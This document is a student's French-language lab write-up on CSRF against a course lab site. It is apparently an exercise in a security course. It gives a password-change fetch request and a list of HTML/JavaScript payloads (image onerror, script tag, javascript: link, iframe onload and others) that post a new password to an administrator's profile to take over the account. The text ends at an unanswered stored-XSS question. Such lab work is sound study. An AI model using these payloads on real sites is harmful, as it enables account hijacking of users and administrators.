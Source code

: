# Lab 1

## CSRF Simple

### 1. Quelle fonctionnalité du site, potentiellement vulnérable à une faille CSRF, pourriez-vous exploiter pour voler le compte administrateur ?


```javascript

fetch("http://basic.csrf.slh.cyfr.ch/profile/nathan.rayburn", {
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
  "body": "password=test1234",
  "method": "POST",
});
```


### 2. Proposez une requête qui vous permettra de prendre le contrôle du compte admin, si elle était exécutée par l’administrateur

   
### 3. Ecrivez une payload javascript qui exécute la requête.

```html
<img src="invalid.jpg" onerror="
  fetch('http://basic.csrf.slh.cyfr.ch/profile/nathan.rayburn_admin', {
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'password=test',
    method: 'POST'
  });
">

<script type="text/javascript">
  fetch('http://basic.csrf.slh.cyfr.ch/profile/nathan.rayburn_admin', {
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'password=test',
    method: 'POST'
  });
</script>

<a href="javascript:fetch('http://basic.csrf.slh.cyfr.ch/profile/nathan.rayburn_admin', {
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded'
  },
  body: 'password=test',
  method: 'POST'
});">
  Click here
</a>

<textarea oninput="
  fetch('http://basic.csrf.slh.cyfr.ch/profile/nathan.rayburn_admin', {
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'password=test',
    method: 'POST'
  });
"></textarea>

<input type="hidden" value="hidden value" onload="
  fetch('http://basic.csrf.slh.cyfr.ch/profile/nathan.rayburn_admin', {
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'password=test',
    method: 'POST'
  });
">

<iframe src="about:blank" onload="
  fetch('http://basic.csrf.slh.cyfr.ch/profile/nathan.rayburn_admin', {
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'password=test',
    method: 'POST'
  });
"></iframe>

<img src="invalid.jpg" onerror="
  fetch('http://basic.csrf.slh.cyfr.ch/profile/nathan.rayburn_admin', {
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'password=test',
    method: 'POST'
  });
">


```


### 4. Quelle fonctionnalité du site, potentiellement vulnérable à une faille Stored XSS, pourriez-vous exploiter pour faire exécuter votre payload
